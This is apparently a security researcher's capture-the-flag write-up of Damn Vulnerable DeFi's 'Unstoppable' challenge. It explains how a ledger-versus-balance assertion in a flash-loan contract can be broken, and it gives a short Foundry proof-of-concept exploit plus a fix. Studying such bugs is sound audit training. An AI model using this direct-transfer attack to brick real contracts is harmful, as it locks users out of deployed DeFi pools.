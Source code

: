 # Deep Dive: When the "Internal Ledger" Meets "Harsh Reality" — The DoS Vulnerability in DVDF's Unstoppable Challenge

**Author:** ShiningSugar  
**Date:** 2025-10-31  
**Tags:** Smart Contract Security, DeFi, DoS Attack

-----

## 1. Background: When the "Unstoppable" Pool stopped

This week, I kicked off my journey into the Damn Vulnerable DeFi (DVDF) challenges—a professional training ground designed for security researchers and auditors.

The first challenge, **#1 "Unstoppable"**, presented a very clear objective: I was facing a flash loan pool holding 1 million DVT tokens. The mission wasn't to steal the funds, but to **make it impossible for the pool to execute any new flash loans, ever again.**

This post is my in-depth post-mortem of the challenge. I'll break down how a seemingly harmless "sanity check" becomes a fatal "self-destruct button." The core of this vulnerability lies in the developer confusing two fundamental concepts: the **contract's "Internal Ledger" versus the "External Reality."**

## 2. Code Analysis: The Fatal "Assertion"

The target is the `UnstoppableLender.sol` contract. It's quite simple:

1. It holds an ERC20 token (`DamnValuableToken` or DVT).  
2. It allows users to deposit DVT via `depositTokens()`, updating an "internal ledger" variable named `poolBalance`.  
3. It provides a `flashLoan()` function to lend to users.  

The vulnerability is hidden in `flashLoan()`:

**`// src/Contracts/unstoppable/UnstoppableLender.sol`**

```solidity
contract UnstoppableLender is ReentrancyGuard {
    
    uint256 public poolBalance; 
    IERC20 public damnValuableToken;

    constructor(IERC20 token) {
        damnValuableToken = token;
    }

    function depositTokens(uint256 amount) external {
        require(amount > 0, "Amount must be greater than 0");
        damnValuableToken.transferFrom(msg.sender, address(this), amount);
        poolBalance = poolBalance + amount;
        emit Deposit(msg.sender, amount);
    }

    function flashLoan(uint256 borrowAmount) external nonReentrant {
        if (borrowAmount == 0) revert MustBorrowOneTokenMinimum();

        uint256 balanceBefore = damnValuableToken.balanceOf(address(this));

        if (balanceBefore < borrowAmount) revert NotEnoughTokensInPool();

        if (poolBalance != balanceBefore) revert AssertionViolated(); 

        damnValuableToken.transfer(msg.sender, borrowAmount);
        IReceiver(msg.sender).receiveTokens(address(damnValuableToken), borrowAmount);

        uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
        if (balanceAfter < balanceBefore) revert FlashLoanHasNotBeenPaidBack();
    }
}
```

### Two Key Checks:

1. **【Correct】Repayment Check:** `if (balanceAfter < balanceBefore)`  
   * This is correct and necessary logic for a flash loan, leveraging the **atomicity** of the transaction.  
   * If the borrower fails to return the funds in the callback, the transaction automatically reverts.  

2. **【Fatal】State Assertion:** `if (poolBalance != balanceBefore)`  
   * This is where the bug lives.  
   * `poolBalance` is *only* updated in `depositTokens()`, while `balanceBefore` is the *real-time* balance.  
   * The developer failed to realize that the standard `transfer` function of an ERC20 token could be used as an attack vector.  

Here is the code snippet for the `transfer` function, from ERC20.sol:

```solidity
function transfer(address to, uint256 amount) public virtual override returns (bool) {
    address owner = _msgSender();
    _transfer(owner, to, amount);
    return true;
}
```

## 3. The Attack (PoC): Breaking the Assertion

Attack Goal: Force **poolBalance** and **balanceBefore** out of sync.

Method: Instead of calling `depositTokens()`, just send DVT directly to the contract address. The *balance* increases, but the *ledger* doesn't.

**`// test/unstoppable/Unstoppable.t.sol`**

```solidity
function testExploit() public {
    vm.startPrank(attacker);

    dvt.transfer(
        address(unstoppableLender),
        INITIAL_ATTACKER_TOKEN_BALANCE
    );
    
    vm.stopPrank();

    vm.expectRevert(UnstoppableLender.AssertionViolated.selector);
    validation();
}
```

At this point:

- `poolBalance = 1,000,000e18`  
- `balanceOf = 1,000,100e18`  

From now on, the assertion is broken beyond repair and the contract is permanently "bricked".

## 4. Defense & Fix: Trust the Ledger, Not the Reality

The Fix: Trust the internal ledger, not the external balance.

```solidity
function flashLoan(uint256 borrowAmount) external nonReentrant {
    if (borrowAmount == 0) revert MustBorrowOneTokenMinimum();

    if (poolBalance < borrowAmount) revert NotEnoughTokensInPool();

    damnValuableToken.transfer(msg.sender, borrowAmount);
    IReceiver(msg.sender).receiveTokens(address(damnValuableToken), borrowAmount);

    uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
    if (balanceAfter < poolBalance) revert FlashLoanHasNotBeenPaidBack();
}
```

After the fix:

1. It only lends funds based on its internal ledger.  
2. It no longer self-destructs from a state mismatch.  
3. It now checks the final balance against the internal ledger, not the pre-loan balance.  

## 5. Conclusion: Key Lessons

1. **ERC20 Tokens Cannot Be Rejected**: A contract must always account for passively receiving tokens.  
2. **`assert` vs. `require`**:  
   * `require` is for validating *external* inputs.  
   * `assert` is for checking *internal* invariants. And `poolBalance == balanceBefore` was clearly not an invariant.  

This challenge was a great reminder that in smart contract security, the devil is often in the assumptions.